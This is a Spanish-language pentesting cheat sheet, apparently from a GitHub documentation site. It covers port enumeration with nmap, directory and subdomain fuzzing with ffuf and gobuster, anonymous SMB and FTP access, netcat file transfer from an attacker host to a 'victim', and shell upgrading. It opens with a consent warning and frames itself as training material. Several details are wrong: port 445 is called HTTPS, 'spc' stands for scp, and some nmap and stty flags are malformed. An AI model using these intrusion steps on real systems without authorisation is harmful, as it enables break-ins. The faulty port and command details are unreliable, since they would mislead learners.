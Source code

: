 ```yaml
---
title: Cheat Docs 🔰
layout: default
has_toc: false
nav_order: 2
has_children: false
---
```


# Pentesting  📕
---

{: .warning }
> Las herramientas presentes en este apartado son invasivas; **no** podemos utilizar estas técnicas sin el consentimiento o la aprobación por parte del objetivo.                     
>*Podemos emplearlas a nivel didáctico en plataformas como HacktheBox o TryHackme.*. 


**Pequeña guía sobre las herramientas básicas necesarias para el pentesting.**

## Puertos destacables 🔑
- 21 **(FTP)**  Posible acceso con login anónimo.

- 22 **(SSH)** Si obtenemos las credenciales podemos tener acceso al sistema a través de este servicio.

- 80 **(HTTP)** Servidor web - Enumeración de directorios y búsqueda de vulnerabilidades en el servidor web.

- 143 / 993 **(IMAP)** Ataques de fuerza bruta contra las credenciales del servidor de correo electrónico.

- 110 / 995 **(SSL)** Posibles ataques de fuerza bruta contra las credenciales del servidor POP3.

- 445 **(HTTPS)**: Enumeración de certificados SSL/TLS para revelar posibles debilidades en la configuración de seguridad del servidor.


# Escaneo de Red 💻

---

### Nmap
https://nmap.org/

Es una herramienta de escaneo de puertos y análisis de redes de código abierto que se utiliza para identificar hosts y servicios en una red

### Escaneo de Hosts:

`nmap -n -sn --reason --min-rate 2000 10.0.0.0/24 -oN hostDiscovery`

### Escaneo de Puertos:
`nmap -np- -Pn --min-rate 5000 -v 10.0.0.0 -oN tcpPort`

### Escaneo en dDtalle de un puerto:

`nmap -n -p21 -Pn -T5 10.0.0.0 -oN tcpPort21 -sVC`


# Herramientas para Servicios web 🕸️

---

## FFuF 
https://github.com/ffuf/ffuf
Herramienta de fuzzing de código abierto.


### Enumeración de URL:
`ffuf -u http://localhost:3000/FUZZ  -fc 404,403 -t 200 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt`

### Enumeración de Archivos
`ffuf -u http://localhost:3000/FUZZ  -fc 404,403 -t 200 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-medium-words-lowercase.txt -e .php,.html,.txt`

### Enumeración de Subdominios
`ffuf -u http://FUZZ.localhost:3000/ -fc 404,403 -t 200 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt`

---

## Gobuster 
https://github.com/OJ/gobuster

Herramienta de enumeración de directorios y subdominios.


### Enumeración de URL:
`gobuster -w /usr/share/wordlists/dirb/common.txt dir -u http://domain.com -x php,txt,html,cgi`

### Enumeración de Subdominios:
`gobuster dns -d http://domain.com -w wordlist.txt -i`

### Enumeración de Pantallas Ocultas:
`gobuster vhost -u http://domain.com -w wordlist.txt -v`


# Servicio SMB 🔑

---

Protocolo responsable de transferir datos entre un cliente y un servidor en redes de área local. 

### Enumeracion de recursos compartidos:
`smbclient -L 10.10.10.10 -N`

`rpcclient -U "" -N 10.10.10.10`

### Entrar con login anonimo:
`smbclient //10.10.212.43/Anonymous/`


# FTP 💻

---


### Entrar con usuario anónimo
`ftp 10.0.0.0 21 `

`#Name:anonymous
#Pass: -

# Transferencia de archivos 🗃️

---

## PYTHON

`python3 -m http.server 8000`

`python2 -m SimpleHTTPServer 8000`

`curl http://10.10.10.10/file.php`

## Netcat

### Maquina hacker
`nc -lvnp 4444 < file`

### Maquina Victima

`nc 10.10.10.10 4444 > file`

## SSH

### Archivo
`spc file.txt user@10.10.10.10:/path/`

### Carpeta
`spc -r user@10.10.10.10:/folder /path/folder/`


# Shell Upgrading 🐚

---

`script /dev/null -c bash` 

`cntrl+Z`

`stty raw -echo; fg`

`reset xterm`

`export SHELL=bash`

`export TERM=xterm`

`stty raws <filas> cols <columnas>`